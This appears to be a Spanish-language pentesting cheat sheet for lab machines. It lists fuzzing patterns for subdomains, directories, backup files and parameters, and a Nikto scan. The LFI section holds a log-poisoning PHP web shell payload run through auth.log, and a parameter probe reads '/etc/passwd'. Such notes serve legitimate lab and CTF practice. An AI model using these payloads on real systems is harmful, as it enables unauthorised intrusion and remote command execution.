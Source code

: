 # Bruteforce subdominios
```
FUZZ.maquina.htb
maquina.FUZZ.htb
```
# Bruteforce directorios
```
http://192.168.1.89/FUZZ
---
extensiones: zip,txt,html,php,gif,jpg
```
# Archivos backup
```
~archivo.php
```
# Bruteforce parámetros
```
file.php?FUZZ=id
---
file.php?FUZZ=/etc/passwd
```
# LFI
Log poisoning
```
'<?php system($_GET["cmd"]);?>'@192.168.10.11
---
file.php?file=/var/log/auth.log&cmd=id
```

# Nikto
```
nikto -h http://192.168.1.86/SuperCMS/login.html
```

# Checklist
- Revisra ruta .git
- Probar distintos diccionarios para fuerza bruta